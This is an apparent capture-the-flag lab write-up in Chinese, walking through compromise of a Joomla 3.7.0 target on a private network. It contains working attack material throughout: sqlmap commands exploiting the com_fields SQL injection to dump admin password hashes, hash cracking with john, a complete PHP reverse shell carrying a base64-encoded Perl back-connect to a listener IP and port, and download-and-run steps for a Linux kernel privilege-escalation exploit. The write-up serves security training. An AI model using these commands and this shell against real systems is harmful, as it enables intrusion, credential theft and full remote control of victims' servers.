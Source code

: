# 端口发现
nmap -sP 192.168.31.0/24
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668648890213-c3a7f192-c86a-40cd-9b48-1de75e9fe374.png#averageHue=%2327303d&clientId=u22557562-ca85-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=346&id=u2333f5fd&margin=%5Bobject%20Object%5D&name=image.png&originHeight=346&originWidth=1190&originalType=binary&ratio=1&rotation=0&showTitle=false&size=97263&status=done&style=none&taskId=ucaa596a9-fa49-4e36-a958-d344151697d&title=&width=1190)
nmap -A -p- 192.168.31.148
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668648959498-511caada-6371-4bb3-be18-90baac90dddd.png#averageHue=%2329313d&clientId=u22557562-ca85-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=317&id=ud95153db&margin=%5Bobject%20Object%5D&name=image.png&originHeight=317&originWidth=1039&originalType=binary&ratio=1&rotation=0&showTitle=false&size=87373&status=done&style=none&taskId=u916533f5-8118-4748-875e-62137e5e7da&title=&width=1039)
nmap --script=vuln 192.168.31.148
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668666644037-de851200-99a9-479c-a55e-ec8d59b132bb.png#averageHue=%232a3341&clientId=u22557562-ca85-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=210&id=u2a3d44dd&margin=%5Bobject%20Object%5D&name=image.png&originHeight=210&originWidth=907&originalType=binary&ratio=1&rotation=0&showTitle=false&size=59447&status=done&style=none&taskId=u39dbf3e6-e041-40ee-85cf-287b37d02c8&title=&width=907)
# web 突破
扫描结果，只开放了 80 端口
访问 80 端口
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668649128514-25657380-0972-49c1-a7e9-cb0ec514166a.png#averageHue=%23cfdcc1&clientId=u22557562-ca85-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=697&id=u2bcb5e66&margin=%5Bobject%20Object%5D&name=image.png&originHeight=697&originWidth=1920&originalType=binary&ratio=1&rotation=0&showTitle=false&size=105364&status=done&style=none&taskId=ub5f8f2a0-75a1-4f73-9fbb-249a25dab95&title=&width=1920)
dirb 扫后台
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668649178412-746fbe4c-8f8f-44d4-909a-a9feb55f8e98.png#averageHue=%23293441&clientId=u22557562-ca85-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=335&id=u3c0209ea&margin=%5Bobject%20Object%5D&name=image.png&originHeight=335&originWidth=1034&originalType=binary&ratio=1&rotation=0&showTitle=false&size=118192&status=done&style=none&taskId=u0eb241c3-b478-40d9-9f88-4015810ddd6&title=&width=1034)
有个 administrator 后台，访问管理后台
这是逐浪的 cms，所以尝试使用逐浪的默认用户名和密码 admin : snoopy
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668669198721-e8095326-c255-4640-ba01-1550fe53bd44.png#averageHue=%23fafaf9&clientId=u22557562-ca85-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=901&id=u31a9ea4a&margin=%5Bobject%20Object%5D&name=image.png&originHeight=901&originWidth=1920&originalType=binary&ratio=1&rotation=0&showTitle=false&size=68303&status=done&style=none&taskId=u822ec9f8-45cf-48e5-a40e-3112cc3149e&title=&width=1920)
成功进入网站后台
第二种方法：搜索攻击方式
前面已经扫出来了后台数据库 joomla 3.7.0，直接对数据库进行攻击，获取管理员账户和密码
searchsploit joomla 3.7.0
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668666578364-1843f658-2326-49d3-91e4-cebf6e605dd8.png#averageHue=%2328313e&clientId=u22557562-ca85-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=326&id=ueb0a4c59&margin=%5Bobject%20Object%5D&name=image.png&originHeight=326&originWidth=1248&originalType=binary&ratio=1&rotation=0&showTitle=false&size=82498&status=done&style=none&taskId=uc3278170-0dbc-4f8f-be55-f133269fa5f&title=&width=1248)
将 42033 复制到当前目录后，查看
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668666835541-d7b732e6-fc0f-46e6-af73-dda980ae684a.png#averageHue=%2328313e&clientId=u22557562-ca85-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=497&id=ude1e929a&margin=%5Bobject%20Object%5D&name=image.png&originHeight=497&originWidth=1274&originalType=binary&ratio=1&rotation=0&showTitle=false&size=120494&status=done&style=none&taskId=uaa79f2ad-f08d-4d15-860c-a3d3062d548&title=&width=1274)
文档中说使用 sqlmap，并给出了命令
修改命令中的参数后执行
sqlmap -u "http://192.168.31.148/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --batch --level=5 --random-agent --dbs -p list[fullordering]
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668667175849-519e6972-a3ef-4183-9421-c7129387c245.png#averageHue=%2327303d&clientId=u22557562-ca85-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=255&id=uee015f63&margin=%5Bobject%20Object%5D&name=image.png&originHeight=255&originWidth=1059&originalType=binary&ratio=1&rotation=0&showTitle=false&size=53288&status=done&style=none&taskId=ue2a8550a-7dc1-4509-b67b-73fb83da281&title=&width=1059)
扫出 4 数据库
接下来扫 joomladb 库中的表
sqlmap -u "http://192.168.31.148/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb --tables -p list[fullordering]
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668667441165-409fea70-9a94-42f4-90e0-00a5f094b785.png#averageHue=%23262f3b&clientId=u22557562-ca85-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=501&id=uaca0375e&margin=%5Bobject%20Object%5D&name=image.png&originHeight=501&originWidth=1241&originalType=binary&ratio=1&rotation=0&showTitle=false&size=93006&status=done&style=none&taskId=u164f99d9-b149-435c-94f4-38f7063fff1&title=&width=1241)
joomladb 中的表太多了
查询 #__users 表中的列名
sqlmap -u "http://192.168.31.148/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668668904677-07bdedf7-8ca4-4e81-89de-970f8199df51.png#averageHue=%232f323c&clientId=u22557562-ca85-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=788&id=ub84bf420&margin=%5Bobject%20Object%5D&name=image.png&originHeight=788&originWidth=1699&originalType=binary&ratio=1&rotation=0&showTitle=false&size=317011&status=done&style=none&taskId=ub5f9fdc3-b258-477d-8dac-e5ee5807c2d&title=&width=1699)
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668668932835-11bb8ad9-49c0-4a91-bddf-a8bdc35fbfbb.png#averageHue=%232e303a&clientId=u22557562-ca85-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=254&id=u3bd53c25&margin=%5Bobject%20Object%5D&name=image.png&originHeight=254&originWidth=962&originalType=binary&ratio=1&rotation=0&showTitle=false&size=37657&status=done&style=none&taskId=uca08cf93-af2a-4538-9caa-c061cef08f3&title=&width=962)
dump 出 name 和 password 的值
sqlmap -u "http://192.168.31.148/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D "joomladb" -T "#__users" -C"name,password" --dump -p list[fullordering]
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668669093731-6c1deb99-5a26-4a27-89ec-099405ab5adc.png#averageHue=%232f323c&clientId=u22557562-ca85-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=289&id=u31378b56&margin=%5Bobject%20Object%5D&name=image.png&originHeight=289&originWidth=1530&originalType=binary&ratio=1&rotation=0&showTitle=false&size=91919&status=done&style=none&taskId=u380b2efc-85aa-487f-ac52-d828866d937&title=&width=1530)
得到管理员用户名 admin和密码（哈希加密后）
将密码复制放入一个 txt 文本中，使用 john 命令解码
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668669369450-f3d3d196-19f8-4367-8997-081466263169.png#averageHue=%232e313c&clientId=u22557562-ca85-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=215&id=ud82f29dc&margin=%5Bobject%20Object%5D&name=image.png&originHeight=215&originWidth=985&originalType=binary&ratio=1&rotation=0&showTitle=false&size=54902&status=done&style=none&taskId=u58851ba0-86aa-4f23-a553-2f587571618&title=&width=985)
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668669398885-4d352b27-a17c-4776-8d29-090e343d223d.png#averageHue=%2330343f&clientId=u22557562-ca85-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=271&id=u5ab5fad9&margin=%5Bobject%20Object%5D&name=image.png&originHeight=271&originWidth=989&originalType=binary&ratio=1&rotation=0&showTitle=false&size=70950&status=done&style=none&taskId=u4e0f3951-0244-41de-8a16-62aadd609bc&title=&width=989)
得到密码 snoopy
登入后台后，还是经典的插件
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668669475156-2047fd80-ff7e-4e44-a4de-fc5e1abf9a13.png#averageHue=%23f9f8f6&clientId=u22557562-ca85-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=964&id=u9333bc99&margin=%5Bobject%20Object%5D&name=image.png&originHeight=964&originWidth=1920&originalType=binary&ratio=1&rotation=0&showTitle=false&size=142104&status=done&style=none&taskId=udff10a6d-9dc1-4622-8f7e-84b009fe822&title=&width=1920)
同样是将 index.php 的内容修改为反弹 shell
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668669629508-9f96fe71-acb9-4a8c-9342-cbaabe152b51.png#averageHue=%23fafaf9&clientId=u22557562-ca85-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=905&id=u671dc45e&margin=%5Bobject%20Object%5D&name=image.png&originHeight=905&originWidth=1920&originalType=binary&ratio=1&rotation=0&showTitle=false&size=99743&status=done&style=none&taskId=u1fe3c259-3d8b-4f63-8faa-a5d6b8794f0&title=&width=1920)
反弹 shell 如下：
```php
<?php
  function which($pr) {
  $path = execute("which $pr");
return ($path ? $path : $pr);
}
function execute($cfe) {
  $res = '';
  if ($cfe) {
    if(function_exists('exec')) {
      @exec($cfe,$res);
      $res = join("\n",$res);
    } elseif(function_exists('shell_exec')) {
      $res = @shell_exec($cfe);
    } elseif(function_exists('system')) {
      @ob_start();
      @system($cfe);
      $res = @ob_get_contents();
      @ob_end_clean();
    } elseif(function_exists('passthru')) {
      @ob_start();
      @passthru($cfe);
      $res = @ob_get_contents();
      @ob_end_clean();
    } elseif(@is_resource($f = @popen($cfe,"r"))) {
      $res = '';
      while(!@feof($f)) {
        $res .= @fread($f,1024);
      }
      @pclose($f);
    }
  }
  return $res;
}
function cf($fname,$text){
  if($fp=@fopen($fname,'w')) {
    @fputs($fp,@base64_decode($text));
    @fclose($fp);
  }
}
$yourip = "192.168.31.128"; 
$yourport = '4444';
$usedb = array('perl'=>'perl','c'=>'c');
$back_connect="IyEvdXNyL2Jpbi9wZXJsDQp1c2UgU29ja2V0Ow0KJGNtZD0gImx5bngiOw0KJHN5c3RlbT0gJ2VjaG8gImB1bmFtZSAtYWAiO2Vj"."aG8gImBpZGAiOy9iaW4vc2gnOw0KJDA9JGNtZDsNCiR0YXJnZXQ9JEFSR1ZbMF07DQokcG9ydD0kQVJHVlsxXTsNCiRpYWRkcj1pbmV0X2F0b24oJHR"."hcmdldCkgfHwgZGllKCJFcnJvcjogJCFcbiIpOw0KJHBhZGRyPXNvY2thZGRyX2luKCRwb3J0LCAkaWFkZHIpIHx8IGRpZSgiRXJyb3I6ICQhXG4iKT"."sNCiRwcm90bz1nZXRwcm90b2J5bmFtZSgndGNwJyk7DQpzb2NrZXQoU09DS0VULCBQRl9JTkVULCBTT0NLX1NUUkVBTSwgJHByb3RvKSB8fCBkaWUoI"."kVycm9yOiAkIVxuIik7DQpjb25uZWN0KFNPQ0tFVCwgJHBhZGRyKSB8fCBkaWUoIkVycm9yOiAkIVxuIik7DQpvcGVuKFNURElOLCAiPiZTT0NLRVQi"."KTsNCm9wZW4oU1RET1VULCAiPiZTT0NLRVQiKTsNCm9wZW4oU1RERVJSLCAiPiZTT0NLRVQiKTsNCnN5c3RlbSgkc3lzdGVtKTsNCmNsb3NlKFNUREl"."OKTsNCmNsb3NlKFNURE9VVCk7DQpjbG9zZShTVERFUlIpOw==";
cf('/tmp/.bc',$back_connect);
$res = execute(which('perl')." /tmp/.bc $yourip $yourport &");
?>

```
kali 开启监听端口
修改完后保存并预览（让 index.php 被解析）
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668669745837-6aaddc43-66d7-4058-8ce6-aa762cfade9c.png#averageHue=%23949391&clientId=u22557562-ca85-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=982&id=ud275ef15&margin=%5Bobject%20Object%5D&name=image.png&originHeight=982&originWidth=1920&originalType=binary&ratio=1&rotation=0&showTitle=false&size=158548&status=done&style=none&taskId=u25f978e4-d64f-4006-a706-04c7238459c&title=&width=1920)
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668669757495-de2dbb88-e733-42da-b2c9-1172d95548d9.png#averageHue=%2330343f&clientId=u22557562-ca85-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=185&id=ue441491e&margin=%5Bobject%20Object%5D&name=image.png&originHeight=185&originWidth=936&originalType=binary&ratio=1&rotation=0&showTitle=false&size=36456&status=done&style=none&taskId=u1b4424d7-f377-4e7a-88de-022f23c93a7&title=&width=936)
python 优化 shell
python -c 'import pty;pty.spawn("/bin/bash")'
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668669822950-bd7aeac6-40ae-4b1e-9980-eb09fd1d8500.png#averageHue=%23323743&clientId=u22557562-ca85-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=53&id=ua5454b60&margin=%5Bobject%20Object%5D&name=image.png&originHeight=53&originWidth=433&originalType=binary&ratio=1&rotation=0&showTitle=false&size=8246&status=done&style=none&taskId=u941f320b-11dd-4c2d-9558-a03f6feec6d&title=&width=433)
# 提权
查看当前靶机的操作系统版本：
lsb_release -a
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668669963954-5203b72c-037a-4ba7-b0f5-15247524a167.png#averageHue=%2331353f&clientId=u0bd52dc4-4f77-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=156&id=ucb2ca7ac&margin=%5Bobject%20Object%5D&name=image.png&originHeight=156&originWidth=582&originalType=binary&ratio=1&rotation=0&showTitle=false&size=25540&status=done&style=none&taskId=u1b296f7c-f2b0-4713-a647-6778b3848fa&title=&width=582)
在 kali 里寻找 ubuntu 16.04 版本的漏洞
searchsploit ubuntu 16.04
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668670109906-98431351-286b-4f95-83c8-f7b37a411c39.png#averageHue=%23343945&clientId=u0bd52dc4-4f77-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=433&id=u12b9f427&margin=%5Bobject%20Object%5D&name=image.png&originHeight=433&originWidth=1260&originalType=binary&ratio=1&rotation=0&showTitle=false&size=238441&status=done&style=none&taskId=ue798e94c-6eef-4368-aec3-067166cc163&title=&width=1260)
复制并查看 39772.txt
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668671161600-fb493e9d-57ef-4af3-a60e-5c54845ff7a4.png#averageHue=%2330343e&clientId=u0bd52dc4-4f77-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=101&id=u9cea493f&margin=%5Bobject%20Object%5D&name=image.png&originHeight=101&originWidth=734&originalType=binary&ratio=1&rotation=0&showTitle=false&size=21601&status=done&style=none&taskId=u2bcc9ef2-f95b-462e-8c9d-9505b4e0532&title=&width=734)
39772.txt 里说在靶机里用 wget 下载 39772.zip，如果靶机不能访问 github 的话
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668671300441-2dc3dc8c-0e8a-4256-875f-8ff2137a3daf.png#averageHue=%23313540&clientId=u0bd52dc4-4f77-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=76&id=u69f2d81b&margin=%5Bobject%20Object%5D&name=image.png&originHeight=76&originWidth=1096&originalType=binary&ratio=1&rotation=0&showTitle=false&size=15672&status=done&style=none&taskId=u08a426dc-20e7-45ea-b868-8fa969894cb&title=&width=1096)
去搜索 exploitdb 39772
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668671217323-c19647c0-73bb-4f0a-a1e3-602fdefa4dd4.png#averageHue=%23f0e2d5&clientId=u0bd52dc4-4f77-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=968&id=uc4dfc501&margin=%5Bobject%20Object%5D&name=image.png&originHeight=968&originWidth=1920&originalType=binary&ratio=1&rotation=0&showTitle=false&size=191045&status=done&style=none&taskId=u8a6d0bc4-b333-4269-ba3e-510eb3231ae&title=&width=1920)
靶机 wget 这个网址
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668671516296-105af237-74ea-41ca-a96f-51abb0e7f51a.png#averageHue=%23efe0d7&clientId=u0bd52dc4-4f77-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=773&id=u1462054b&margin=%5Bobject%20Object%5D&name=image.png&originHeight=773&originWidth=1699&originalType=binary&ratio=1&rotation=0&showTitle=false&size=184472&status=done&style=none&taskId=u04839e69-7924-465f-978f-bed1a91af74&title=&width=1699)
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668671769341-6cc571d6-40f2-4639-bdb9-36c815288649.png#averageHue=%232e333d&clientId=u0bd52dc4-4f77-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=390&id=u9aef056c&margin=%5Bobject%20Object%5D&name=image.png&originHeight=390&originWidth=1260&originalType=binary&ratio=1&rotation=0&showTitle=false&size=138201&status=done&style=none&taskId=u7933c2ff-bcf9-404b-9f2d-ffb65c2e605&title=&width=1260)
有的目录不让写入，下载成功无法保存，所以去网站目录下
靶机中操作：
unzip 39772.zip
cd 39772
tar -xvf exploit.tar
cd ebpf_mapfd_doubleput_exploit
./compile.sh
./doubleput   (时间较长)
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668672192734-1747f6ed-c171-432e-b859-f19e375fc09f.png#averageHue=%232f343f&clientId=u0bd52dc4-4f77-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=130&id=ua72fd619&margin=%5Bobject%20Object%5D&name=image.png&originHeight=130&originWidth=744&originalType=binary&ratio=1&rotation=0&showTitle=false&size=25586&status=done&style=none&taskId=ue83c1c2b-7740-4a42-9e42-8643f5d516c&title=&width=744)
找 flag
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668672238603-adc9e39f-6ba5-4ed9-beb9-74bdb4b5224a.png#averageHue=%232d303a&clientId=u0bd52dc4-4f77-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=464&id=u614dcf63&margin=%5Bobject%20Object%5D&name=image.png&originHeight=464&originWidth=1016&originalType=binary&ratio=1&rotation=0&showTitle=false&size=91728&status=done&style=none&taskId=u939bece1-fa13-4365-af4f-466fd0fba44&title=&width=1016)


